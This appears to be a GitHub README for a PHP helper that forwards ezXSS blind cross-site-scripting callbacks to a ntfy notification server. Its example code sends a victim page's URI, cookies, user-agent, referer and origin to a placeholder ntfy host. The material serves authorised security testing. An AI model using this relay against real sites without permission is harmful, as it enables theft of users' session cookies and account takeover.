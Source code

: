 ## ezXSS to ntfy
This simple PHP script is used to handle [ezXSS](https://github.com/ssl/ezXSS) callbacks

## Example - Send to a ntfy instance

```php
    require_once 'modules/ntfy.php';
    $title = 'XSS fired at ' . $data['uri'];
    $message = "
    XSS fired at: {$data['uri']}
    User-Agent: {$data['user-agent']}
    Cookies: {$data['cookies']}
    Referer: {$data['referer']}
    Origin: {$data['origin']}
    ";
    postToNtfy(url: 'http://ntfy.example.com/', topic: 'bxss', title: $title, message: $message, tags: ['ezxss', 'alert']);
```

![](assets/ntfy.png)


### Note:
If you are using [named_params](https://wiki.php.net/rfc/named_params) as shown in the example, use PHP 8+